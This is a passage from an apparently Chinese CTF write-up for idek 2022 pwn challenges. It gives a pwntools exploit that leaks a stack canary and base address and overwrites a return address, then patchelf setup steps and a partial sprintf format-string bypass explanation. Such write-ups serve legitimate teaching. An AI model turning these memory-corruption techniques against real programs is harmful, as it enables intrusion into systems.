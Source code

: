 ```python
ru('a'*10)
canary=u64(p.recv(8).ljust(8,b'\x00'))-0x61 #接收8字节的canary并左对齐8个字节,不足用\x00补齐
info('canary->'+hex(canary))
stackaddr=u64(p.recv(6).ljust(8,b'\x00')) #地址只有6个字节，但需要8字节对齐
sa('Can you provide some extra feedback?',b'a'*10+p64(canary)) #还原栈的canary，绕过canary保护
info('stack->'+hex(stackaddr))
sla('Do you want to complete a survey?','y')
sa('Do you like ctf?',b'a'*0x1a)
ru('a'*0x1a)
baseaddr=u64(p.recv(6).ljust(8,b'\x00'))-0x1447 #获得返回地址的值
info('base->'+hex(baseaddr))
win_offset=0x1273
winaddr=win_offset+baseaddr
'''
64位是寄存器传参，但ROP中找不到合适的来对rdx赋值，所以考虑栈布局
'''
sa('Can you provide some extra feedback?',b'a'*10+p64(canary)+p64(stackaddr+0x6c)+p64(winaddr)+b'a\x00\x00\x00'+b'l\x00\x00\x00'+b'f\x00\x00\x00')
ia()
```

## Sprinter

### 环境搭建

```shell
./libc-2.31.so #查看libc的linux版本Ubuntu GLIBC 2.31-0ubuntu9.9
#利用glibc-all-in-one下载 2.31-0ubuntu9.9_amd64
#复制 2.31-0ubuntu9.9_amd64目录下的ld-2.31.so到 vuln所在的目录
#替换libc文件
patchelf --replace-needed libc.so.6 ./libc-2.31.so ./vuln
#替换ld文件
patchelf --set-interpreter ./ld-2.31.so ./vuln
# 查看配置情况
ldd vuln
```

### 解题过程

首先正常运行查看`sprintf`的参数情况

![](/images/idek2022/wp/6.png)

```c
s_addr:0x00617325 '%sa\x00'

sprintf(s_addr,"%sa",[s_addr]="%sa") //注意读取字符串的时候不会读取\x00

用"%sa"替换"%s"得到"%saa"，所以把"%saa"写入地址0x00617325处，然后"\x00"就被"a"覆盖了，成功绕过。

之后就接上由于"\x00"断开带有格式化字符的输入，然后继续解析，
```

